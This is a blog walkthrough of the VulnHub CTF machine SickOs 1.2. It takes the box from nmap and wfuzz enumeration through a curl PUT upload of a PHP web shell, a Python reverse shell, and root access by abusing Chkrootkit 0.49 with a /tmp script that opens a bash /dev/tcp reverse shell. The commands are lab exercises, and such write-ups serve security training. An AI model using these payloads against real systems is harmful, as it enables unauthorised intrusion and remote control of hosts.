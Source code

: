```yaml
---
layout: post
title: SickOs 1.2 (VulnHub) - Complete Walkthrough and Guide
subtitle: SickOS 1.2 is a CTF (Capture the Flag) vulnerable machine from VulnHub which objective is to gain the highest privileges on the system.
excerpt: SickOS 1.2 is a CTF (Capture the Flag) vulnerable machine from VulnHub which objective is to gain the highest privileges on the system.
comments: false
thumbnail-img: https://i.imgur.com/Vg48A3C.jpg
categories:
- WalkThroughs 
tags:
- vulnhub
---
```


Here is a complete walkthrough and tutorial on how to hack and penetrate SickOs 1.2 of VulnHub.

![SickOs 1.2 VulnHub](https://i.imgur.com/Vg48A3C.jpg){: .mx-auto.d-block :}

**SickOS 1.2 Description:**

SickOS 1.2 is a CTF (Capture the Flag) vulnerable machine from VulnHub which objective is to gain the highest privileges on the system and get the /root/7d03aaa2bf93d80040f3f22ec6ad9d5a.txt file.

**Author:** [D4rk](https://twitter.com/D4rk36)

**Download:** [VulnHub](https://www.vulnhub.com/entry/sickos-12,144)

### SickOs 1.2 Walkthrough
SickOs 1.2 was found by conducting an Nmap ping sweep.

~~~
nmap -sP 192.168.216.1-254
~~~

![sickos_1-2_screenshot1](https://i.imgur.com/fCLNURz.jpg){: .mx-auto.d-block :}

Doing a quick Nmap scan, it was found that SickOS 1.2 port 22 and port 80 was open.

~~~
nmap -n 192.168.216.128
~~~

![sickos_1-2_screenshot2](https://i.imgur.com/jgotwXr.jpg){: .mx-auto.d-block :}

Browsing to http://192.168.216.128 shows that it was hosting a website.

~~~
http://192.168.216.128
~~~

![sickos_1-2_screenshot3](https://i.imgur.com/Hj1yjL9.jpg){: .mx-auto.d-block :}

**[Wfuzz](http://www.edge-security.com/wfuzz.php)** - a tool for brute-forcing web applications was used to find and brute-force for any directories on SickOS 1.2 website.

Using Wfuzz, a directory named "**test**" was found.

~~~
wfuzz --hc 404 -c -z file,/usr/share/wfuzz/wordlist/general/big.txt http://192.168.216.128/FUZZ
~~~

![sickos_1-2_screenshot4](https://i.imgur.com/5Vv0v1T.jpg){: .mx-auto.d-block :}

Browsing to the "**test**" directory showed a directory listing web page and that SickOS 1.2 website was running on **lighttpd/1.4.28**.

~~~
http://192.168.216.128/test/
~~~

![sickos_1-2_screenshot5](https://i.imgur.com/8z3b4ce.jpg){: .mx-auto.d-block :}

Various exploits and vulnerabilities on **lighttpd 1.4.28** was tested, however none of it worked for SickOs 1.2.

Upon checking for HTTP methods available on the directory "**test**" using cURL, it was found that it can be potentially vulnerable to HTTP PUT method exploit.

~~~
curl -v -X OPTIONS http://192.168.216.128/test
~~~

![sickos_1-2_screenshot6"](https://i.imgur.com/HQA45XB.jpg){: .mx-auto.d-block :}

Learning this, SickOS 1.2 was tested if it was possible to create a simple backdoor web shell using the HTTP PUT method exploit.

~~~
curl -v -X PUT -d '&lt;?php system($_GET["cmd"]); ?&gt;' http://192.168.216.128/test/shell.php
~~~

![sickos_1-2_screenshot7](https://i.imgur.com/8H7CPaX.jpg){: .mx-auto.d-block :}

The result shows that SickOS 1.2 was indeed vulnerable to HTTP PUT method exploit.

Browsing to the test directory showed that the webshell was successfully created.

~~~
http://192.168.216.128/test
~~~

![sickos_1-2_screenshot8](https://i.imgur.com/tYsC7uT.jpg){: .mx-auto.d-block :}

The webshell was then tested if it was properly working by reading the "**/etc/passwd**" file of SickOS 1.2.

Seeing the contents of "**/etc/passwd/**" file proves that the web shell wasindeed working.

~~~
http://192.168.216.128/test/shell.php?cmd=cat%20/etc/passwd
~~~

![sickos_1-2_screenshot9](https://i.imgur.com/MzhRP2D.jpg){: .mx-auto.d-block :}

The webshell was then used to run areverse shell Python command while a Netcat was opened to listen for incoming connections. This resulted on gaining a shell with low privilege access.

~~~
nc -nlvp 443

http://192.168.216.128/test/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket%28socket.AF_INET,socket.SOCK_STREAM%29;s.connect%28%28%22192.168.216.129%22,443%29%29;os.dup2%28s.fileno%28%29,0%29;%20os.dup2%28s.fileno%28%29,1%29;%20os.dup2%28s.fileno%28%29,2%29;p=subprocess.call%28[%22/bin/sh%22,%22-i%22]%29;%27
~~~

![sickos_1-2_screenshot10](https://i.imgur.com/gSFdG6U.jpg){: .mx-auto.d-block :}

![sickos_1-2_screenshot11](https://i.imgur.com/dnF1Hwj.jpg){: .mx-auto.d-block :}

The low privilege shell was used to enumerate SickOS 1.2 which resulted on finding that a **Chkrootkit version 0.49** was running on **Crontab** through "**/etc/cron.daily**".

~~~
cd /etc/cron.daily

ls -alF

chkrootkit -V
~~~

![sickos_1-2_screenshot15](https://i.imgur.com/RXqPlna.jpg){: .mx-auto.d-block :}

(https://www.exploit-db.com/exploits/38775) Chkrootkit 0.49 privilege escalation exploit</a> was then used to gain complete administrative access on SickOS 1.2.

A bash script named "**update**" was then created on the "**/tmp**" directory and changed its permissions to **777** to make it executable and remove any permission restriction while a Netcat listener was opened to wait for incoming connections.

~~~
printf '#!/bin/bash\nbash -i &gt;&amp; /dev/tcp/192.168.216.129/443 0&gt;&amp;1\n' &gt;&gt; /tmp/update

chmod 777 /tmp/update

nc -nlvp 443
~~~

![sickos_1-2_screenshot12](https://i.imgur.com/izCgJ4I.jpg){: .mx-auto.d-block :}

After waiting for the Chkrootkit to run via Crontab, the root shell was obtained.

![sickos_1-2_screenshot13](https://i.imgur.com/6YSjFpu.jpg){: .mx-auto.d-block :}

Browsing to the root directory, the target **7d03aaa2bf93d80040f3f22ec6ad9d5a.txt** has been found.

{: .box-success}
7d03aaa2bf93d80040f3f22ec6ad9d5a.txt contents:

{: .box-success}
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

{: .box-success}
Thanks for giving this try.

{: .box-success}
@vulnhub: Thanks for hosting this UP!.

![sickos_1-2_screenshot14](https://i.imgur.com/ka7dCVh.jpg){: .mx-auto.d-block :}

SickOs 1.2 of VulnHub has been successfully hacked and exploited!
